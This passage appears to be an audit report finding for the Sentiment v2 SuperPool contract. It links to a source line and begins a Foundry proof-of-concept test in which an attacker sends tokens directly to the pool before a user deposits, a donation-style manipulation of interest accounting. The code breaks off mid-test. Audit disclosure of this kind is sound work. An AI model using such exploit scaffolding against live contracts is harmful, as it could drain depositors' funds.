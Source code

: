 **Link:** [SuperPool.sol\#L366](https://www.google.com/search?q=https://github.com/sherlock-audit/2024-08-sentiment-v2/blob/main/protocol-v2/src/SuperPool.sol%23L366)

-----

#### Coded PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import "../BaseTest.t.sol";
import {console2} from "forge-std/console2.sol";
import {FixedPriceOracle} from "src/oracle/FixedPriceOracle.sol";

contract SuperPoolUnitTests is BaseTest {
    uint256 initialDepositAmt = 1000;

    Pool pool;
    Registry registry;
    SuperPool superPool;
    RiskEngine riskEngine;
    SuperPoolFactory superPoolFactory;
    address user_1 = makeAddr("User_1");
    address attacker = makeAddr("Attacker");
    address public feeTo = makeAddr("FeeTo");

    function setUp() public override {
        super.setUp();

        pool = protocol.pool();
        registry = protocol.registry();
        riskEngine = protocol.riskEngine();
        superPoolFactory = protocol.superPoolFactory();

        FixedPriceOracle asset1Oracle = new FixedPriceOracle(1e18);
        vm.prank(protocolOwner);
        riskEngine.setOracle(address(asset1), address(asset1Oracle));
    }

    function test_interest_manipulation_WITH_BUG() public {
        address feeRecipient = makeAddr("FeeRecipient");

        vm.prank(protocolOwner);
        asset1.mint(address(this), initialDepositAmt);
        asset1.approve(address(superPoolFactory), initialDepositAmt);

        address deployed = superPoolFactory.deploySuperPool(
            poolOwner, address(asset1), feeRecipient, 1e17, type(uint256).max,
            initialDepositAmt, "test", "test"
        );
        superPool = SuperPool(deployed);

        /*//////////////////////////////////////////////////////////////
        //        ATTACKER SENDS FUNDS DIRECTLY TO SUPERPOOL          //
        //////////////////////////////////////////////////////////////*/
        vm.startPrank(attacker);
        asset1.mint(attacker, 1e18);
        asset1.transfer(address(superPool), 1e18);
        vm.stopPrank();

        /*//////////////////////////////////////////////////////////////
        //          USER_1 DEPOSITS INTO SUPERPOOL                    //
        //////////////////////////////////////////////////////////////*/
```